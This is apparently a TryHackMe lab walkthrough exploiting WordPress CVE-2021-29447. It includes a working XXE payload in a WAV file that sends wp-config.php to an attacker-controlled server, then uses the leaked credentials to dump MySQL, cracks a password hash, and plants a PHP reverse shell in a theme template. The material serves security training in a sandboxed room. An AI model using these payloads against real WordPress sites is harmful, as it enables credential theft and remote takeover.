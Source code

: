 Room: [Wordpress: CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)

Difficulty: Medium

Overview: This is a semi-guided challenge room. We will exploit a Wordpress server through a WAV file that will allow us to read the contents of a sensitive file. Gaining access to mysql database to finaly get our foot in machine by using Wordpress themes editor.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

As usual we will start our enumeration by running “nmap” to search for all open ports on the target system:

```
nmap -sV -sC -p- wordpress.thm -oN nmap.txt

-sV → Probe open ports to determine service
-sC → Scan using the default set of scripts
-p- → Scan all ports
-oN → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/131554897-778e3a32-8854-4197-a272-734d49759a2d.png)

Since this room is a semi guided challenge we will exploit the http web server on port 80 that was built with Wordpress. 

![image](https://user-images.githubusercontent.com/76821053/131554922-bee65342-5aee-476f-90a1-b7405fbf7a87.png)

To bypass the login portal and access the user dashboard we are going to use the credentials that were given in the previous task: 

![image](https://user-images.githubusercontent.com/76821053/131554952-53b74961-1ec5-4d08-ad45-f8ae03e717e3.png)

How to find the login portal path? We can use google to search for it, or we can also use “gobuster” to search for any hidden files or directories, which is always a good practice:

```
gobuster dir --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --url http://wordpress.thm -x .txt,.log,.php,.html
```

![image](https://user-images.githubusercontent.com/76821053/131554975-40176714-c2af-4488-953a-698136312558.png)

The login portal's path is at "/wp-login.php":

![image](https://user-images.githubusercontent.com/76821053/131555006-cd5cb3fd-89e8-40bc-9582-f78d816f5a7b.png)

Insert the credentials and we are greated by the admin dashboard:

![image](https://user-images.githubusercontent.com/76821053/131555046-d78ec0b5-233b-4529-b2d4-06edce25fee8.png)

We can see that the version of this Wordpress web server is 5.6.2 and it has a CVE-2021-29447. This CVE tells us that a user with the ability to upload files can exploit an XML parsing issue in the Media Library leading to XXE attacks. This requires WordPress installation to be using PHP 8. 

Access to internal files is possible in a successful XXE attack. So let's follow the step by step POC (proof of concept) in task 1 of this room:

1. Create a malicious wave file:

```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOURSEVERIP:PORT/NAMEEVIL.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

![image](https://user-images.githubusercontent.com/76821053/131555072-339bd7ed-1bbe-4e7e-88b5-0006909b0347.png)

In my payload i changed the ip address and port to match my attacker machine. You can check your ip address with the command "ifconfig".

I also changed the name of “NAMEEVIL.dtd” to “payload.dtd”. It is important that this file has an extention of ".dtd".

2. Create a dtd file with the same name has the "NAMEEVIL.dtd" or with the one that you have chosen before. And, we will have to make some slightly changes:

In this payload we need to change the path of the file that we want to read. In the POC the payload reads "/etc/passwd", so we have to change this to read “wp-config.php”.

Every linux server by default is at “/var/www/html" so the config file must be in this path.

```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

In the second part of the payload only change the ip address and port to match your own.

![image](https://user-images.githubusercontent.com/76821053/131555138-dceb62ee-81c9-491c-abd3-654aadd8f5d6.png)

Now that we have created our payloads we have two files in our directory:

![image](https://user-images.githubusercontent.com/76821053/131555162-f4d21a81-2795-4426-b72b-77868a276ecd.png)

3. Before we upload the .wav file to the Wordpress server we have to host an http server in the same directory as the dtd file:

```
php -S 0.0.0.0:8000
```

This is a php http server have to be listening on the port that we chose for the payloads.

![image](https://user-images.githubusercontent.com/76821053/131555197-c06d68c4-7ab0-4c24-8657-d59930bcf6fa.png)

4. Time to upload the .wav file:

Go to Media tab and just select the .wav payload.

![image](https://user-images.githubusercontent.com/76821053/131555255-60875794-3784-4657-b5bb-1044eb7e55d7.png)

This will execute code on the webserver, it will fetch the dtd file and we will see information stored in the requests off our php HTTP server logs:

![image](https://user-images.githubusercontent.com/76821053/131555293-e96c8d12-ad16-48f0-bf34-7f79a7bbdcea.png)

5. To read the contents of the request we can use this php one liner:

```
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

Create a .php file with the one liner and copy the encoded data from the your php request log and paste it to “base64here”.

![image](https://user-images.githubusercontent.com/76821053/131555314-0af8c5a2-c6de-42f8-9af7-cfafae609d0d.png)

To read it we just do:

```
php filename.php
```

![image](https://user-images.githubusercontent.com/76821053/131555341-c4137e10-81d6-4738-a49a-afa789882614.png)

Success we managed to read the contents of wp-config.php. Inside was some database credentials that we can we will be taking advantage next.

Looking at the nmap scan we can see that mysql is running on this system. Let's connect to it with the credentials that we have found above:

```
myslq -h wordpress.thm -u USERNAME -p

-h → To specify the URL
-u → Put the username from the database
-p → For connecting with a password
```

![image](https://user-images.githubusercontent.com/76821053/131555375-7c574c84-7b4f-4a57-8a6c-cb112d2a718e.png)

To navigate mysql service, we can start by listing all databases available:

```
show databases;
```

![image](https://user-images.githubusercontent.com/76821053/131555403-b242c4e7-2b07-47bd-a2b3-ece2495ec92c.png)

Now we have to select the correct dabatase and list all the tables inside:

```
use wordpressdb2

show tables;
```

![image](https://user-images.githubusercontent.com/76821053/131555434-78dd0584-11bf-48af-9e11-9612154b63c6.png)

The table that calls out for attention is wptry_users. To extract its contents we can use this command:

```
SELECT * FROM wptry_users;
```

![image](https://user-images.githubusercontent.com/76821053/131555456-4443a6d8-61d2-4700-8959-a919e1561e5f.png)

We have found our user id 1 and his password hash. 

This hash is encryted in MD5. To find this information we can use a tool called “hash-identifier”:

![image](https://user-images.githubusercontent.com/76821053/131555494-9006149d-9f6d-4bb5-845b-391cf46650a1.png)

To crack this hash we can use “John the Ripper”.

First we need to put this hash into a .txt file and send it to john:

```
echo 'MYSQL_HASH' > hash.txt

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image](https://user-images.githubusercontent.com/76821053/131555533-65f6b2cc-6406-49cf-b2b3-1f020842afaa.png)

Now we have new credentials and they also belong to the Wordpress server.

How can we compromise the machine and get a reverse shell?

We can leverage the fact that we have access to the “admin” dashboard in the wordpress server. And, by editing the appearance of the web page we will get a reverse shell.

To be more specific let's review the steps:

• Create a php reverse shell with "msfvenom" or use the awesome php reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

• In the Wordpress server go to "Apperance/Theme Editor" tab and select "Twenty Twenty" .

• Choose a php theme file. I used “404 Template” and overwrite its contents with the php reverse shell payload:

![image](https://user-images.githubusercontent.com/76821053/131555575-2844f4e2-695d-4938-95fe-f6cd96350e49.png)

• If you are using the payload from Pentestmonkey you have to change the ip address and port that i marked with arrows.

• Start a netcat listener on the same port as the payload.

• To trigger the payload we have to access “Themes” tab select “Twenty Twenty” and press “Live Priview”:

![image](https://user-images.githubusercontent.com/76821053/131555602-37116fd4-c554-4890-b221-b0f3d3e85d8d.png)

• Finaly just press any of the contents of the live preview and in your shell you will recieve a connection from the server:

![image](https://user-images.githubusercontent.com/76821053/131555632-d72a7652-c99b-404e-93e3-8dfd4e002a58.png)

Success we have access to the target machine. 

The final flag is at “stux" home directory:

![image](https://user-images.githubusercontent.com/76821053/131555648-438bfaad-cf7a-414c-ada8-fe87f212fb02.png)









































